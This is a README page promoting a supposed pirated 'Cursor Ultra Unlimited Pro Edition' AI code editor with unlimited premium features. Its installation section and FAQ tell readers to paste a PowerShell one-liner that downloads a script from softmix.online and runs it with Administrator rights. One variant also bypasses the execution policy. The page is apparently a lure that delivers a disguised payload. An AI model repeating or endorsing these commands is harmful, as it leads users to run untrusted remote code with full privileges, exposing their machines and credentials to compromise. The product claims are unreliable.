

<div align="center">


<br>


# Cursor Ultra Unlimited Pro Edition
**AI IDE · Agent mode · Background tasks**
<br>
**AI IDE · Agent mode · Background tasks**
<br>
Premium · Pro · Full build · Windows



**Cursor Ultra — AI-powered code editor with agent mode, background multi-file tasks and premium model access for professional software development.**

</div>

---

> Ultra tier provides unlimited premium requests, background agents and max-mode completions — refactor entire codebases, generate tests and debug with top-tier AI models.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 🧠 **Premium models** — Advanced AI models and longer context enabled.
- ⏱️ **Extended limits** — Higher quotas for chats, files and generations.
- 📄 **File workflows** — Upload documents, images and code for analysis.
- 🖥️ **Desktop client** — Native Windows app with pro workspace layout.
- 🚀 **Productivity ready** — Useful for writing, coding and research tasks.
- ⚡ **Fast setup** — Install through one PowerShell command.
- 💻 **Windows support** — Runs on Windows 10/11 64-bit systems.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 4 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 4 GB free space.
</details>


TAGS
cursor, ai-ide, code-editor, agent, developer, programming, ai-code-editor, vscode-fork, coding-assistant, developer-ai, programming-tools, ide-ai, code-completion, software-dev, cursor-ide
